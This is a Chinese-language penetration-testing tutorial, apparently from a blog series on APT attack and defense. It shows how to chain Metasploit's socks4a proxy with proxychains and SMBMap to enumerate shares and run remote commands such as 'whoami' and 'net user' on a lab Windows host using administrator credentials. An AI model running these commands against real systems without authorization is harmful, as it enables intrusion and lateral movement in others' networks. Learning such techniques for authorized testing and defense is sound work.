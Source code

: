 专注APT攻击与防御
https://micropoor.blogspot.com/

Msf在配合其它框架攻击，可补充msf本身的不足以及强化攻击方式，优化攻击线路。本季将会把msf与Smbmap结合攻击。弥补msf文件搜索以及文件内容搜索的不足。

项目地址：https://github.com/ShawnDEvans/smbmap

* 支持传递哈希
* 文件上传/下载/删除
* 可枚举（可写共享，配合Metasploit）
* 远程命令执行
* 支持文件内容搜索
* 支持文件名匹配（可以自动下载）
* msf配合Smbmap攻击需要使用到sock4a模块

`msf auxiliary(server/socks4a) > show options`
![](media/f7b132114e46760984cd298213740f4d.jpg)


该模块socks4a加入job
` msf auxiliary(server/socks4a) > jobs`
![](media/c38221c680e3e078414ebb4cfe8ecb66.jpg)

配置proxychains，做结合攻击铺垫。
`root@John:/tmp# cat /etc/proxychains.conf`
![](media/9fb4144cb5b4c7825b4ad698f740f3f5.jpg)
![](media/33f8922e2c8e134f96f3ca546e96c420.jpg)

支持远程命令

`root@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'net user'`
![](media/0d745135d03f66c1ec9bc97c844730f5.jpg)
`root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'whoami'`
![](media/c7d86f93c68a049ada011d3067384b07.jpg)

枚举目标机共享
`root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐d ABC`
![](media/e28af8ca88f58bb38cf7e10087ab35d6.jpg)

`root\@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'ipconfig'`
![](media/123a8b0a7824f57dd5a78f5861b8baea.jpg)

Smbmap支持IP段的共享枚举，当然Smbmap还有更多强大的功能等待探索。
